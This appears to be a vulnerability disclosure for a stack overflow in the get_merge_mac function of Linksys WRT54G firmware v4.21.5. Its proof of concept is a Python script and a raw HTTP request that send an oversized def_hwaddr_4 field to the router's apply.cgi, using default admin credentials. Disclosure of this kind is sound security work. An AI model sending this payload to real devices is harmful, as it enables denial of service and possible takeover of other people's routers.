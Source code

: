 
# Overview
Product overview https://store.linksys.com/support-product?sku=WRT54G

# Affected version
Linksys WRT54G Firmware v4.21.5
# Vulnerability details
The Linksys WRT54G Firmware v4.21.5 has a stack overflow vulnerability in get_merge_mac function. The variable `def_hwaddr_%d`receives the parameter from a POST request.  In line 17, the stract function will merge it with the variable a2. It is important to note that in the calling function, the a2 variable is stack-allocated and has a size of only 24 characters. If the variable exceeds this length, it can result in a buffer overflow vulnerability, potentially leading to remote code execution or denial-of-service attacks.  
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1720361910064-aa48cb25-1686-46a3-9ff8-7fec7e801ad9.png#averageHue=%23fcfcfc&clientId=uf4146c48-8275-4&from=paste&height=403&id=uaa708eeb&originHeight=634&originWidth=814&originalType=binary&ratio=1.5749999284744263&rotation=0&showTitle=false&size=55947&status=done&style=none&taskId=u0c1d15e5-6868-4248-9df1-8a6e9827d8e&title=&width=516.825420296022)
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1720361928738-ad12f34b-b239-473a-b43c-ab6aaf49c86b.png#averageHue=%23fbfbfb&clientId=uf4146c48-8275-4&from=paste&height=192&id=ufb9d0d40&originHeight=303&originWidth=907&originalType=binary&ratio=1.5749999284744263&rotation=0&showTitle=false&size=29397&status=done&style=none&taskId=uacfbc9e5-0e1f-4b69-a55e-b77093276fe&title=&width=575.8730420251744)
# POC
```c
import requests

url = 'http://192.168.1.1/apply.cgi'
headers = {
    'Host': '192.168.1.1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://192.168.1.1',
    'Authorization': 'Basic OmFkbWlu',
    'Connection': 'close',
    'Referer': 'http://192.168.1.1/WanMAC.asp',
    'Upgrade-Insecure-Requests': '1',
    'Priority': 'u=1',
}

payload = ('submit_button=WanMAC&change_action=&submit_type=&action=Apply&mac_clone_enable=1&def_hwaddr=6&'
           'def_hwaddr_0=1C&def_hwaddr_1=0F&def_hwaddr_2=66&def_hwaddr_3=0A&'
           'def_hwaddr_4=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&'
           'def_hwaddr_5=E3')

response = requests.post(url, headers=headers, data=payload)

print('Status:', response.status_code)
print('Response:', response.text)

```
```c
POST /apply.cgi HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 197
Origin: http://192.168.1.1
Authorization: Basic OmFkbWlu
Connection: close
Referer: http://192.168.1.1/WanMAC.asp
Upgrade-Insecure-Requests: 1
Priority: u=1

submit_button=WanMAC&change_action=&submit_type=&action=Apply&mac_clone_enable=1&def_hwaddr=6&def_hwaddr_0=1C&def_hwaddr_1=0F&def_hwaddr_2=66&def_hwaddr_3=0A&def_hwaddr_4=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&def_hwaddr_5=E3
```
